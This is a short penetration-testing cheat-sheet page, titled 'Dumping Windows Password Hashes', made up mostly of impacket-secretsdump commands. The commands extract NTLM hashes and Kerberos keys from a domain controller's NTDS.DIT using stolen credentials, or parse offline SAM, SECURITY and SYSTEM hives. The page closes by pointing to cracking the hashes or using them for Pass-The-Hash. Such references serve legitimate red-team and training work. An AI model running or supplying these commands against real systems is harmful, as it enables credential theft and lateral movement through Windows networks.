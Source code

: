 ```yaml
---
title: Dumping Windows Password Hashes
description: Using Impacket's SecretsDump, we can dump the Windows password hashes.
tags:
    - Windows
refs:
    - https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/
date: 2023-02-08
draft: false
---
```


## Commands

### Using Credentials

```sh
impacket-secretsdump example.local/username:password@<target-ip>

# -just-dc: Extract only NTDS.DIT (NTLM hashes and kerberos keys).
impacket-secretsdump -just-dc example.local/username:password@<target-ip>
# -just-dc-ntlm: Extract only NTDS.DIT data (NTLM hashes only).
impacket-secretsdump -just-dc-ntlm example.local/username:password@<target-ip>
```

### Using NTDS file or Hives

```sh
# -ntds: NTDS.DIT file to parse
# -system: SYSTEM hive to parse
impacket-secretsdump -ntds ntds.dit -system system LOCAL

# -sam: SAM hive to parse
# -security: SECURITY hive to parse
# -system: SYSTEM hive to parse
impacket-secretsdump -sam sam.bak -security security.bak -system system.bak LOCAL
```

After dumping, we can crack them to reveal passwords or use them with **Pass-The-Hash**.
